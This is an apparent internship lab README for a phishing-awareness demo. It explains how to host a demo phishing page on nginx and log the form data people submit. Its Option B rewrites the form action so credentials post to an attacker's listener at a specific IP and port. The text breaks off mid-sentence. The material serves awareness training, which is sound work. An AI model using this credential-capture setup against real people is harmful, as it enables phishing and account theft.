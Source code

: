 # phishing_awareness

Phishing Awareness (Lab Demo)

**Intern:** Muhammad Faisal  
**Date:** 2025-09-30  

---

## Purpose
This folder contains a safe, educational phishing demonstration page and artifacts for the CodeAlpha internship. The page is intentionally simple and designed for lab-controlled testing only — **do not** use real production credentials or deploy this on public systems.

The demo teaches:
- How phishing pages often look and behave
- Quick manual checks (hover links, inspect form actions)
- How to unshorten links and inspect TLS certificates
- Capturing and redacting any submitted test data (lab only)

---

## Files included
- `phishing_demo.html` — static demo page (lab demo).  
- `artifacts/` — (empty by default) place for captured/redacted logs and outputs.  
- `screenshots/` — placeholder for screenshots (phishing_page.png, phishing_hover.png, etc.).  
- `videos/phishing_demo.mp4` — demo recording (optional).  
- `Phishing_Awareness_Expanded_Muhammad_Faisal.pptx` — presentation used for awareness/demo.  
- `TASK2_STATUS.md` — task status and commands run.

---

## How to host the demo (on the **target** machine)
> Run on the lab **target** instance (13.60.156.138) only.

1. Install nginx (if not already):
```bash
##sudo apt update && sudo apt -y install nginx

2. Copy phishing_demo.html to the web root:



sudo cp phishing_demo.html /var/www/html/phishing_demo.html
sudo systemctl restart nginx
# verify:
curl -I http://localhost/phishing_demo.html

3. Open in your browser (from your laptop):



http://13.60.156.138/phishing_demo.html


---

How to capture submitted data (lab-only; two options)

Option A — Capture on the target

Run a simple HTTP logger on the target that listens on port 9000 and logs POST bodies (Python script provided in task instructions). Example (server on target):

# Start a basic logger (example)
sudo nohup python3 ~/codealpha/TASKS/logging_server.py >/home/ubuntu/codealpha/TASKS/logging_server.log 2>&1 &
# Submit the form from the browser (use dummy data)
# Then inspect:
tail -n 80 /home/ubuntu/codealpha/TASKS/artifacts/phish_submissions_raw.txt

Option B — Capture on the attacker (attacker sees submissions)

Change the form action in phishing_demo.html to the attacker's listener:

<form method="post" action="http://13.6.208.177:9000/log">

Start the logger on the attacker (same approach) and watch the log there.

> Security note: If you change the action to an IP:port, ensure Security Group inbound is limited to lab IPs only (restrict to your tester IPs) and revert after the de
